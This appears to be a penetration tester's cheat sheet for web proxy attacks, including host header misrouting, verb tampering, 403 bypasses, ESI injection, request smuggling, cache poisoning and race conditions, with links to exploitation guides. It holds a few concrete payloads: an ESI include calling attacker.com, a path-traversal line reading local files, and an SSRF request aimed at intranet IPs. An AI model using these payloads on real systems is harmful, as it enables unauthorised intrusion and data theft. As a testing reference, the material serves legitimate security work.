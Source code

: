 # Exploitation
### Proxy Attacks

*   Host Misrouting
    *   `Host`, `X-Forwarded-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, `Forwarded` → Check if Validated
    *   Invalid / Duplicate / Wrapped / Domain Parsing / Port Value / Absolute URLs
    *   SSRF                                   → OOB Check + Internal IP Access
    *   Server-Side Injections   → URL Hostname + Port Value
*   Parameter Pollution
    *   `GET /transfer.php?param=[VALUE_1]&param=[VALUE_2]` → Check Parsing Order
    *   Value Override / WAF Bypass
    *   [Exploitation](https://book.hacktricks.xyz/pentesting-web/parameter-pollution)
*   Verb Tampering
    *   `curl -kILX OPTIONS [URL]`                            → GET / POST / PATCH / Other
    *   `X-HTTP-Method`, `X-HTTP-Method-Override`   → 405 Bypasses
    *   Denied Requests                                             → Replace Method + Resend
*   403 Bypasses
    *   `bypass()    [403_URL]`
    *   Turbo Intruder + Many Requests
    *   [Path Normalization](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#heading-pathname-manipulation-bypassing-reverse-proxies-and-load-balancers-security-rules)
*   30X Injections
    *   CRLF
        *   `crscan() [URL_OR_QUERY]`
        *   [Exploitation](https://techbrunch.github.io/patt-mkdocs/CRLF%20Injection/#summary)
    *   Open Redirection
        *   `redscan() [URL/PATH_OR_QUERY]`
        *   Header/Location Reflection
        *   [Exploitation](https://github.com/payloadbox/open-redirect-payload-list)
*   ESI Injection
    *   `Surrogate-Control: content="ESI/1.0"`   → Server Header Check
    *   `Hell<!--esi-->o`                                             → "Hello" Reflection
    *   `<esi:include src=http://attacker.com>` → OOB Detection
    *   [XSLT RCE](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
    *   [Exploitation 101](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection) / [102](https://gosecure.ai/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
*   HTTP Smuggling
    *   `smuggle() [POST_URL]`
    *   [Exploitation](https://portswigger.net/web-security/request-smuggling/exploiting) → Host Misrouting / Response Poisoning / Session Stealing
*   Cache Poisoning
    *   [Cache Headers](https://www.virtuesecurity.com/kb/cache-controls-explained/)                               → `poison() [URL]`
    *   Header Discovery & Tampering   → [Cache Harmful Response](https://book.hacktricks.wiki/en/pentesting-web/cache-deception/index.html) 
*   [Race Conditions](https://portswigger.net/web-security/race-conditions#methodology)
    *   [Send Parallel Requests](https://portswigger.net/burp/documentation/desktop/tools/repeater/send-group#sending-requests-in-parallel)   → Turbo Intruder / GitHub Tools
    *   Limit Overrun                      → Functions that perform a check → act state transition
    *   Partial Construction          → Send Parameters matching a temporary state type
    *   Timestamp Hashing         → Parallel Requests will generate the same Tokens
    *   [Multi-Endpoint Racing](https://portswigger.net/research/smashing-the-state-machine)
*   WSS Injection
    *   WSS Traffic Interception → User Input in `wss://` URLs
    *   [Exploitation](https://portswigger.net/web-security/websockets#websockets-security-vulnerabilities)
*   Path Misrouting
    *   `GET http://[URL]@[OOB/INTRANET_IP]` → 502 SSRF
    *   `GET ../../../../../../[LOCAL_FILE]`